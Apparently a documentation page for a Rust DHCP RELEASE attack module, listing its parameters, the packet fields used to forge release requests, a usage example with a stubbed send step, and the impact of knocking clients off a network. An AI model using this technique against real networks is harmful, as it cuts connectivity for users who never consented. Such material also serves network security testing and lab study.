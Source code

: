 ### Parameters
- `server_ip`: DHCP server IP address (required)
- `server_mac`: DHCP server MAC address (required)
- `target_mac`: Specific client MAC to release (default: None/random)
- `target_ip`: Specific IP to release (default: None/random)
- `randomize`: Generate random IPs/MACs (default: false)
- `ip_range_start`: Start of IP range for random releases
- `ip_range_end`: End of IP range for random releases
- `rate_pps`: Releases per second (default: 10)

### Attack Flow
```
1. For each target IP in range:
   a. Determine client MAC (random or deterministic)
   b. Build DHCP RELEASE packet with:
      - op = BOOTREQUEST (1)
      - ciaddr = client IP address
      - chaddr = client MAC address
      - Message Type option = RELEASE
      - Server Identifier option = server IP
   c. Send to DHCP server (unicast)
2. Server releases IP from lease table
3. Client loses network connectivity
```

### Usage Example
```rust
let server_ip = Ipv4Addr::new(192, 168, 1, 1);
let server_mac = [0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF];

let attack = DhcpReleaseAttack::new(server_ip, server_mac)
    .with_ip_range(
        Ipv4Addr::new(192, 168, 1, 10),
        Ipv4Addr::new(192, 168, 1, 100)
    )
    .with_rate(10);

let start = Ipv4Addr::new(192, 168, 1, 10);
let end = Ipv4Addr::new(192, 168, 1, 100);

let stats = attack.execute_range(start, end, |packet| {
    // Send packet logic here
    Ok(())
});

println!("Released {} IP addresses", stats.packets_sent);
```

### Impact
- Forces clients to release IP addresses
- Clients lose network connectivity
- Requires DHCP renewal to regain access
- Can target specific clients or entire subnets

